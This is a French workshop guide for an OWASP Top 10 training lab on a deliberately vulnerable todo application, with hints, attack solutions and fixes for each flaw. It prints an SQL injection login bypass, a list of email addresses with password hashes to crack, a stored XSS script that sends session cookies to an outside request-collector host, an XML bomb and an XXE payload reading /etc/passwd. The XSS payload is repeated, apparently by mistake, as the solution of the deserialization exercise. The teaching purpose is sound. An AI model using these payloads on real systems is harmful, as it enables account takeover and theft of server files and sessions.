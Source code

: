 = Pas à pas
:author: Pascal Abaziou
:email: https://github.com/javathought[@javathought]
:revnumber: v1.0
:revdate: 27.02.2018
:revremark: First draft


:icons: font
:imagesdir: ./images

++++
<link rel="stylesheet" href="stylesheets/font-awesome.min.css">

<script
			  src="https://code.jquery.com/jquery-3.3.1.min.js"
			  integrity="sha256-FgpCb/KJQlLNfOu91ta32o/NMZxltwRo8QtmkMRdAu8="
			  crossorigin="anonymous"></script>

<link rel="stylesheet" href="stylesheets/bootstrap.css">
<script src="js/bootstrap.min.js"></script>
++++

:stylesheet: stylesheets/fontawesome-4.1.0.css
:iconfont-remote!:

:iconfont-name: fontawesome-4.1.0
:stylesdir: stylesheets
:numbered:

 Cette page présente un pas à pas de l'atelier, avec des indices afin de vous débloquer si nécessaire. Essayez de faire les exercices sans vous `spoiler` avec ces indices.


= Introduction

=== OWASP

Le site de l'OWASP : https://www.owasp.org/index.php/Main_Page

Lien utile : le pdf du https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project#tab=Main[Top 10]

== Présentation de l'application


=== Gestion d'une ToDo liste

Une simple application Single App de gestion de ToDo liste :

. Un accès administrateur pour gérer les utilisateurs
. Un accès utilisateur pour gérer sa todo liste

=== Stack technique

. IHM en AngularJS

. Backend REST en Jersey/Jooq (grizzly embarqué)

. une fenêtre modal de login basée sur des exemples
Angular : http://jasonwatmore.com/post/2014/05/26/angularjs-basic-http-authentication-example
Boostrap : https://bootsnipp.com/snippets/featured/clean-modal-login-form

= Exercices

== Se connecter à l'application en tant qu'administrateur par injection SQL

Tentez de vous connecter à l'application.


* Énoncé

Allez sur la page d'accueil de l'application et tenter de vous connecter en tant qu'administrateur.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce1" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce2" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse1" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce1,role=collapse]
--
 Le compte de l'administrateur est admin
--

[id=astuce2,role=collapse]
--
 Injectez un bout de code afin que la clause `where` de la requête d'authentification renvoyant toujours vrai
--

[id=reponse1,role=collapse]
Utilisez le mot de passe suivant : `e' or '1' = '1`

* Correction

Utilisez le DSL de Jooq pour les requêtes dynamiques. Outre le fait de générer des requêtes paramétrées, il les génère
de manière "type safe".

== Se connecter avec le compte d'un utilisateur de l'application

Des pirates ont diffusé un extrait des comptes des utilisateurs d'un site sur lequel ils se sont introduits.
Pouvez-vous en tirer partie pour vous connecter sur l'application ?

----
courtneyrivera@exostream.com   :21bd100d4f6e8fa6eecad2a3aa415eec418d38ec
mckeecarey@apex.com            :21bd1011053fd0102e94d6ae2f8b83d76faf94f6
ellasykes@magnina.com          :21bd1012a7ca357541f0ac487871feec1891c49c
lewishiggins@shopabout.com     :21bd10136e006e24e7d152139815fb0fc6a50b15
arthur.doe@example.com         :21bd12dc183f740ee76f27b78eb39c8ad972a757
whitneyjimenez@animalia.com    :21bd165c1026eaa0119cd86f4a9d148ee2d51d82
john.doe@example.com           :cbfdac6008f9cab4083784cbd1874f76618d2a97
figueroacaldwell@pyrami.com    :21bd165fec9e83edeffb2320645ca1512f3b2a50
yolandamcneil@puria.com        :21bd166677b8ed92cdecd44a8635e3e993de04e9
frostcallahan@quonata.com      :21bd16667e903bf80b3e62bb1a4654e7f2d7187f
albertawolf@joviold.com        :21bd16991a1bf5574e570db8e98bbe7346acaa94
huntermoody@combot.com         :21bd16a088d608dbb983fb120b27882a9a77bb29
demo.doe@example.com           :a94a8fe5ccb19ba61c4c0873d391e987982fbbd3
alicefrye@quarmony.com         :21bd16b1fa49a7f28aa2c3336f7e6a0715a602d3
mindyhull@recognia.com         :21bd16c49f100471b44bbde181c5443b95344a31
socorrokent@comverges.com      :21bd16c4ba5dfc19575e035ec7eaa82001b96d03
blakelester@nutralab.com       :21bd16c5b3efdab6e40e0a4b2dfefe81f50018b6
jane.doe@example.com           :40bd001563085fc35165329ea1ff5c5ecbdbbeef
mike.doe@example.com           :315f166c5aca63a157f7d41007675cb44a948b33
gordonobrien@talkola.com       :21bd16d22a591152b1cb368ddebe38aef895259b
cherrymiles@assistia.com       :21bd16d358b829c770f763cea21bf73f550c3e2f
mathilde.doe@example.com       :5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
barbarahahn@extro.com          :21bd16d44a7750f3bdfc90cb4f5836b8926afc5f
watsonriddle@songlines.com     :21bd16d4a08cb51c8b88fc8ce07742974d7d541d
gibsonbradley@comtest.com      :21bd16e17b1233f394c9ae095d73b4cb4025a3ac
leticiacarr@qualitex.com       :21bd16e231b238a632f3388662dc3735fbd44f8e
rowenacoleman@bleendot.com     :39007e310acd5cc5582c34c408ebf4cc
mararhodes@artiq.com           :c69f24b431852eb5b2db419860387dad
tanishaadams@opticom.com       :713f6fcbeeacbd3a78401382f88f5d1f
cruzharmon@intergeek.com       :86fc184cabcf0626c479927cc4e5e998
flossiecantu@applica.com       :c075be959b6831fb01d52591963d12b7
leonorstevenson@plasmosis.com  :6c058fea843d5bff058c939fde3a6eb8
christiangonzales@springbee.com:2dfecece2bf00698dd5fbae90e2f0860
candiceshaffer@geekology.com   :e720578393bb68956f079c3db426d6ec
deliahewitt@kyagoro.com        :b0963f1a7fd94698a6e76e402daffcef
lydiadouglas@capscreen.com     :026d29ad37c6c672315e5a9c358d0a7c
waderowe@pigzart.com           :7d01d8893e7ddbb18ceb40c59ef384c2
mejiasilva@hyplex.com          :bf1a688689f82ba39b9efa236d09c539
mcfarlanddale@pasturia.com     :dfcd9ad16c5358c1c420343a7b2b683b
kristihickman@zyple.com        :14f6609d95e3830b14709bce165041af
lauriewebb@injoy.com           :2b1841891df6de05b163d8dbbe79036c
daniellelong@datagen.com       :9fe44d8eb7fbc5217fad2e54d09871ed
vickistein@kaggle.com          :961887ee6a084c02619f22f6b2e8a852
staceyweaver@comtent.com       :fd9d9fa433c0d9385345355c17be13f4
meltonvelasquez@mangelica.com  :fa22376fe0782fe9313385846e66b979
rodriquezmorse@nexgene.com     :095614e5971ad8a81d4f232c00bbf33d
silviabell@vendblend.com       :f14c92dd1b2281cdf0f5999e595442de
hoodmatthews@jasper.com        :6e0f9ff4606b41705ea25bcbff1ac94b
mitziholt@orbalix.com          :49cacc76a288058b68ded69f0c804269
howardsalinas@utarian.com      :cbc7f37615111efe8e246d3316e24408
barlowbradshaw@primordia.com   :81fc99cc34d28eec3c90109cab7ddfbe
mattiemoon@combogene.com       :e838f7db8ef56faa9b49e8215dfbbee7
berylharper@escenta.com        :02ae65a2f3dac98a54290f09c39758ed
margeryglover@mediot.com       :3a7edcb86afee6b0853fba0a16672bcd
searswalls@isopop.com          :22d541659b917e40146f4d4256b2a2e2
mariannehayes@phormula.com     :4e953e9a0a0f2503e8b8269b2c4a8057

----


++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce4" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse3" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce4,role=collapse]
--
 Les valeur en clair des empreintes SHA-1 sont facilement retrouvables par rainbow tables
--

[id=reponse3,role=collapse]
--
 Utilisez le site https://hashkiller.co.uk/sha1-decrypter.aspx qui possède des rainbow tables sur les mots de passe de sites hackées
--



* Correction

.L'application ToDo stocke aussi l'empreinte des mots de passe en simple hash SHA-1.
Renforcez le chiffrement par un hachage renforcé.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce5" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce6" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse4" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce5,role=collapse]
--
 Une bonne fonction de hachage doit être forte, évolutive, avec un sel et un facteur de travail
--

[id=astuce6,role=collapse]
--
 Utilisez un des fonctions suivantes : Argon2, PBKDF2, scrypt, ou bcrypt.
--

[id=reponse4,role=collapse]
--
 Le patch `stockage_pwd.patch` contient une première implémentation PBKDF2.
 Le site https://veggiespam.com/painless-password-hash-upgrades/ présente un guide compatible avec Spring security
--

.Se protéger contre la réutilisation des mots de passe provenant de sites hackés

. refusez les emails comme compte de connexion
. créez une base des mots de passe des hash divulgués, initialisez-là avec la liste ci-dessus et contrôlez l'utilisation d'un mot de passe "corrompu"
lors de la mise à jour du mot de passe.

[NOTE]
En cible vous pouvez récupérer une base de hash ayant fuité par exemple sur https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm :
1,493,677,782 entrées, 15GB

== Se connecter à l'application en tant qu'administrateur en devinant le mot de passe

* Énoncé

Le compte de l'administrateur n'a pas été correctement initialisé et son mot de passe est *très* faible (oui ça arrive).

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce3" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse2" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce3,role=collapse]
--
 Le mot de passe est égal au nom d'utilisateur
--
[id=reponse2,role=collapse]
--
 Essayez avec admin/admin
--

* Correction

Changez le mot de passe de l'administrateur

== Obtenez les informations de session de l'administrateur

Le site est sensible aux attaques XSS. Profitez en pour obtenir les informations de connection de l'administrateur

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce16" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce17" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse9" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce16,role=collapse]
--
Utilisez le site https://requestb.in/ pour recueillir les informations de l'attaque XSS
--

[id=astuce17,role=collapse]
--
Créez un todo de type publique avec un script d'attaque
--


[id=reponse9,role=collapse]
--
utilisez le code suivant dans la description de la todo (en remplaçant l'id 1lwyhpu1 par celui que vous avez généré).
<script>document.write("<img src=https://requestb.in/1lwyhpu1?s="+encodeURI(document.cookie)+"></img>");</script>
--

* Correction

- Supprimez les identifiants de connection du cookie actuel
- Générez un cookie de session sécurisé (html only et secure) avec un token non rejouable
- Supprimez l'interprétation de la description d'une todo dans la page publique

== XXE (Xml External Entity)

Connaissez-vous les xml bomb ? Quelle est l'empreinte mémoire du fichier xml ci-dessous ?
Risquez vous un DoS ?
Essayez de l'injecter dans l'application (par votre client REST) sur la ressource `/todos` avec votre client REST.
Jusqu'à combien lol pouvez-vous injecter ?

----
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE todo [
<!ENTITY xxe SYSTEM "logback.xml" >
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">

]>
<todo>
  <userId>1</userId>
  <summary>hacking with XML</summary>
  <description>you've been hacked with XXE exploit</description>
  <secret>&lol9;</secret>
</todo>
----

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce21" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
++++

[id=astuce21,role=collapse]
--
 N'oubliez pas d'ajouter les headers nécessaires : pour vous authentifier et le format de réponse attendu (`xml`)
--


Un autre type d'attaque XXE existe. Essayez de l'exploiter sur la ressource `todos/xml`. Cette fois-ci le format de payload est en text (le résultat tojours en xml).


++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce22" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse11" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce22,role=collapse]
--
 L'objectif est de récupérer un fichier du serveur, comme /etc/passwd ;)
--

[id=reponse11,role=collapse]
--
 Utilisez l'entity : `<!ENTITY xxe SYSTEM "file:///etc/passwd" >
--


== Augmentez vos privilèges

Connectez vous avec votre compte utilisateur : devoxx/devoxx2018 et essayez d'obtenir les droits administrateurs
en modifiant le contenu d'une requête REST légitime.


++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce7" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce8" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
++++

[id=astuce7,role=collapse]
--
 Regardez le contenu de la requête REST de changement de mot de passe.
--

[id=astuce8,role=collapse]
--
 2 actions sont possibles :
 - modifier le code html (avec developerTools sous Chrome par exemple)
 - intercepter la requête pour la modifier et la rejouer
--

* Correction

Ajoutez un contrôle d'accès au fonctions autorisées

. Séparez les fonctions de l'administrateur et de l'utilisateur normal (Créez une classe CurrentUserResources).
. Ajoutez un contrôle d'accès différent sur la classe UserResource (pour l'administrateur) et la classe CurrentUserResource.
 La récupération des rôles de l'utilisateur a déjà été effectuée dans le principal

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse5" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>

++++


[id=reponse5,role=collapse]
--
 Annotez les classes avec @RolesAllowed(ADMIN) et @RolesAllowed(Role.USER)
 Les annotations peuvent aussi se faire au niveau des méthodes.
--


== Accédez et modifiez les todos des autres utilisateurs

De nouveau connectez-vous avec votre compte utilisateur (devoxx/devoxx2018).
Supprimez vos droits administrateurs puis essayez d'accéder et/ou modifier les todos d'un autre utilisateur.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce9" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse6" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce9,role=collapse]
--
 Regardez l'url de la page lorsque vous affichez le détail d'une todo
--

[id=reponse6,role=collapse]
--
 Affichez la todo avec l'id 1 par exemple
--


* Correction

. Remplacez l'id d'accès aux todos par un uuid pour empêcher les utilisateurs de forger des requêtes illicites.
. Ajoutez un contrôle d'accès au périmètre de données autorisées.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce10" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce11" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce12" aria-expanded="false" aria-controls="collapseExample">
  Indice 3
</a>
++++

[id=astuce10,role=collapse]
--
 Pour la première modification, l'application gère déjà un `id` et un `uuid`. Pour ne plus les restituer dans le corps JSon des réponses,
 il suffit d'inverser l'utilisation de l'annotation `@XmlTransient`. Il reste à modifier les appels de ressources avec
 l'id en paramètre et les requêtes sql associées à un id.
--

[id=astuce11,role=collapse]
--
 Pour la deuxième modification, il faut seulement accéder aux données de l'utilisateur courant. Enrichissez la classe
 `CurrentUserResource` pour implémenter l'accès aux todos de l'utilisateur connecté.
--

[id=astuce12,role=collapse]
--
 Pour récupérer l'utilisateur actuel, utiliser le code suivante : `(User) securityContext.getUserPrincipal()`
--


== Security Misconfiguration

La configuration de production concerne souvent plus les `ops` que les `devs`.
Quelle configuration est à changer dans ce cas-ci ?

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse12" aria-expanded="false" aria-controls="collapseExample">
  Solution 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce23" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse13" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
++++

[id=reponse12,role=collapse]
--
 Le mot de passe de la base de données
--

[id=reponse23,role=collapse]
--
 Les développeurs doivent aussi communiquer la configuration durcie de leurs développements. Quelle partie du développement est
 à désactiver en production
--

[id=reponse13,role=collapse]
--
 Il s'agit de la classe CrossDomainFilter que les développeurs ont mis en place pour pouvoir faire des tests à partir de SwaggerUI.
 Rajoutez un paramètre extérieur au code pour condition le code de ce filtre.
 Son paramétrage sera indiqué dans la documentation d'installation
--



== Insecure deserialization

Le format JSON n'est pas exempt de failles. Il permet de gérer le polymorphisme et si il
est mal configuré, permet des attaques.

Regarder le format Json des Todos pour utiliser un tel exploit.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce18" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce19" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce20" aria-expanded="false" aria-controls="collapseExample">
  Indice 3
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse10" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce18,role=collapse]
--
 Le champ secret est de type Object: utilisez le pour passer un objet `gadget` qui exploitera cette faille.
--
[id=astuce19,role=collapse]
--
 un peu d'aide ? https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
--
[id=astuce20,role=collapse]
--
 utilisez le fichier `Exploit.txt` comme payload de bytecode et utiliser votre client REST
 pour envoyer la requête.

 Puis consultez la log de votre application.
 L'exécution de la requête REST a peut-être renvoyé une erreur mais l'exploit a bien été fait.
--


[id=reponse10,role=collapse]
--
utilisez le code suivant dans la description de la todo (en remplaçant l'id 1lwyhpu1 par celui que vous avez généré).
<script>document.write("<img src=https://requestb.in/1lwyhpu1?s="+encodeURI(document.cookie)+"></img>");</script>
--

* Correction

. Mettre à jour ses dépendances (cf exercice suivants) : les auteurs de la bibliothèques mettent à jour
régulièrement la librairie pour bannir les classes `gadgets` reconnues
. Ne pas utiliser la détermination du type par classe mais par nom : voir la classe Todo et remplacer
l'annotation par celle en commentaire (Les types possibles sont à implémenter).


== Composants vulnérables

Vérifiez la présence de dépendendances vulnérables sur le serveur REST.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce13" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse7" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce12" aria-expanded="false" aria-controls="collapseExample">
  Indice 3
</a>
++++

[id=astuce13,role=collapse]
--
 L'OWASP me à disposition un outil de vérification de présence de vulnérabilités dans les dépendences d'un projet, notamment
 sous forme de plugin maven.
--

[id=reponse7,role=collapse]
--
  mvn dependency-check:check -pl owasp-jersey

  Montez de version Jackson et vérifiez que le plugin ne remonte plus de vulnérabilité sur cette dépendance.
--


== Logging and monitoring

Mettez en place un logging systématique dédié à la sécurité sur les accès aux ressources REST.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce14" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse8" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
++++

[id=astuce14,role=collapse]
--
 Utilisez 2 filtres (1 ContainerRequestFilter et 1 ContainerResponseFilter) pour générer les logs de sécurité
 Utilisez les `MCD` dans le premier filtre pour positionner les informations de contexte (comme le nom de l'utilisateur accédant à la ressource)
 Utilisez un `Marker` dans le deuxième filtre pour identifer les logs de sécurité (et pouvoir les isoler dans un fichier dédié.)
--

[id=reponse8,role=collapse]
--
  Utilisez le patch suivant : `owasp-A10-2017-logging.patch
--

Mettez en place un logging systématique dédié à la sécurité sur les accès aux ressources REST.

Monitorez cette log dans ELK. Utilisez ces commandes pour lancer les conteneurs Elastic et Kibana.

----
docker network create elastic
docker run --network=elastic -e ELASTIC_PASSWORD=MagicWord --name elasticsearch -p 9200:9200 -p 9300:9300 -e "discovery.type=single-node" docker.elastic.co/elasticsearch/elasticsearch-platinum:6.2.3
docker run --network=elastic -e ELASTICSEARCH_PASSWORD=MagicWord -p 5601:5601 docker.elastic.co/kibana/kibana:6.2.3
docker run --network=elastic -e XPACK_MONITORING_ELASTICSEARCH_PASSWORD=MagicWord -e XPACK_MONITORING_ELASTICSEARCH_USERNAME=elastic --rm -it -v ~/workspace/devoxx/devoxx-2018/logs:/usr/logs -v ~/pipeline/:/usr/share/logstash/pipeline/ docker.elastic.co/logstash/logstash:6.2.3
----

Les logs générées peuvent contenir des informations sensibles. Modifiez les classes d'audit pour supprimer ces informations avant
d'écrire la log.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce15" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
++++

[id=astuce15,role=collapse]
--
 Dans le cas de la classe `AuthenticateResource`, le mot de passe va être loggué. Supprimez cette information du payload json.
--

Ajoutez l'IP d'origine, elle pourra permettre les actions suivantes:
. identifier des scénarios d'attaque (tentaive de connexion sur plusieurs comptes à partir de la même  ip par exemple)
. bannir une ip


== créez un todo dans la liste de l'utilisateur connecté

Utilisez le site de hacker sous le répertoire `owasp-hacker` pour faire une action à l'insu de l'utilisateur connecté :

- démarrez le site de hacker `npm run lite`
- allez à l'adresse : https://localhost:9095/#/nice
- cliquez sur le bouton  `cliquez ici`
- retourner sur le site de Todo et regardez votre liste de Todos

Ajoutez une protection contre les attaques CSRF :

Les 4 méthodes de protections contre les attaques CSRF sont :

 . Synchronizer (CSRF) Tokens (requires session state)
 . Double Cookie Defense ( Cookie XSRF-TOKEN -> Header X-XSRF-TOKEN )
 . Encrypted Token Pattern
 . Custom Header : X-Requested-With: XMLHttpRequest

Angular gère nativement la 2^e^ méthode. Il ne reste donc qu'à le gérer côté serveur :

- Générez un cookie (sans l'attribut html only !)
- Sur les requêtes concernez, contrôlez la correspondance entre le cookie reçu et le header renvoyé par le client.

== click jacking  et headers



== ajouter des tests

Le module `owasp-jersey` contient une structure de tests utilisant `Cucumber` et `rest-assured. Enrichissez-là
pour faire un rapport de tests de sécurité.

Les tags de cucumber permettent de présenter la couverture des risques owasp

image::couverture_test.png[couverture owasp]


= Pour aller encore plus loin

== 2FA : authentification à 2 facteurs
Un des points sensibles de l'application est l'authentification qui peut être corrompue par plusieurs failles. C'est
pourquoi de plus en plus de sites proposent l'authentification à 2 facteurs.

Il existe 3 (ou 4 selon les interprétations) facteurs d'authentification :

. Ce que vous savez : c'est le facteur utilisé dans cette application (votre mot de passe).
. Ce que vous possédez : votre téléphone, un certificat client, une clé RSA (utilisé par Blizzard), ...
. Ce que vous êtes : la biométrie (visage, empreinte digitale, rétinienne, pulsation cardiaque )
ou ce que vous savez faire (votre façon de taper au clavier : était utilisé auparavant par `https://www.coursera.org`
pour valider vos soumissions aux tests finaux des sessions. Parfois la distinction est faite entre ce que vous êtes et ce que vous savez faire (4 facteurs).

Mettez en place un 2e facteur d'authentification.

